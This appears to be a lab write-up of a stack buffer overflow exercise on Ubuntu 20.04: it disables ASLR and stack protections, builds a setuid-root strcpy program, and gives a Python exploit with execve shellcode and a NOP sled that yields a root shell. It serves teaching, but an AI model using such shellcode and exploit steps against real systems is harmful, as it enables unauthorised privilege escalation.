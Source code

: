 ```yaml
---
title: "Buffer overflow attack"
date: 2021-01-31T14:47:41+08:00
draft: false
---
```


The goal of the following experiments is to exploit buffer overflow attack and get the root privilege of the shell. 



## Setup

Environment:

1. Google cloud virtual machine: Ubuntu 20.04
2. Linux kernel version: 5.4.0 

Countermeasures:

1. ASLR (address space layout randomization) provided by the operating system
2. NX/DEP bit provided by the hardware architecture
3. StackGuard or canary mechanism provided by the compiler 

Check if ASLR is activated or not (default is 2):

```
$ cat /proc/sys/kernel/randomize_va_space 
2
```

Disable ASLR:

```
$ sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
```

In the most recent Ubuntu operating systems, the /bin/sh points to the /bin/dash. Dash can prevent itself from being executed in a Set-UID process since it detects if the effective UID equals to real UID or not. More details about dash history can be found [here](https://bugs.launchpad.net/ubuntu/+source/dash/+bug/1215660). 

```
$ cd /bin && ls -l | grep "sh"
lrwxrwxrwx 1 root   root            4 Jan 29 23:22 sh -> dash
```

So we use another shell called zsh that does not have such a security countermeasure. 

```
$ sudo ln -sf /bin/zsh /bin/sh
```



## Vulnerable program

Here is a vulnerable program. It reads something from a file called badfile, then copy the content into the buffer. The program (the function strcpy()) does not limit the input from the user, so we can exploit this vulnerability. That is, we can make the program crash or execute some malicious code with buffer overflow attack. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#ifndef BUF_SZ 
#define BUF_SZ 100
#endif 

int bof(char *str)
{
    char buffer[BUF_SZ]; 
    strcpy(buffer, str);        // buffer overflow attack 
    return 1; 
}

int main(int argc, char** argv)
{
    char str[517]; 
    FILE* badfile; 

    badfile = fopen("badfile", "r"); 
    fread(str, sizeof(char), 517, badfile);     // read contents from badfile
    bof(str);                                   // copy to the buffer
    printf("Return properly\n"); 

    return 1; 
}
```

Compile the vulnerable program as follows, the flag "-z execstack" means to make the stack executable (since stacks are non-executable by default) and "-fno-stack-protector" means to disable the StackGuard protection. 

```
$ gcc -DBUF_SZ=100 -m32 -g -o stack-dbg -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack 
```

```
$ ls -l | grep "stack"
-rwsr-xr-x 1 root ychin_chuang 15708 Jan 31 08:10 stack
```

Use gdb debugger to figure out the distance between the buffer and return address. As you can see, the distance is 0xffffd2a8 - 0xffffd23c  + 4 (the size of ebp) = 112. 

![](https://github.com/chuang76/image/blob/master/ch2-1.PNG?raw=true)



## Payload

The shellcode in the following exploit program aims to execute "/bin/sh". We can use NOP-sled as a strategy to hit the start of our shellcode. NOP (0x90) means do nothing in the CPU instruction, so we can just slide in the buffer until reach the shellcode. Note that `ret` is 0xffffd2a8 plus some number. That is because the gdb pushes some environment data into the stack before running the program. Since the stack grows downwards in x86 processors, the actual frame pointer without debugging mode will be larger than 0xffffd2a8. 

```
#!/usr/bin/python3

import sys 
shellcode = (
        "\x31\xc0"
        "\x50"
        "\x68""//sh"
        "\x68""/bin"
        "\x89\xe3"
        "\x50"
        "\x53"
        "\x89\xe1"
        "\x99"
        "\xb0\x0b"
        "\xcd\x80"
    ).encode('latin-1')

# fill with NOPs 
content = bytearray(0x90 for i in range(517))

start = 517 - len(shellcode)
content[start:] = shellcode
ret = 0xffffd2a8 + 120     
offset = 112 
L = 4                       # 32-bit 

# modify the return address
content[offset:offset+L] = (ret).to_bytes(L, byteorder='little')

with open('badfile', 'wb') as f:
    f.write(content)
```



## Launch the attack

```
$ rm badfile
$ python3 exploit.py 
$ ./stack 
# whoami 
root 
```

![](https://github.com/chuang76/image/blob/master/ch2-2.png?raw=true)

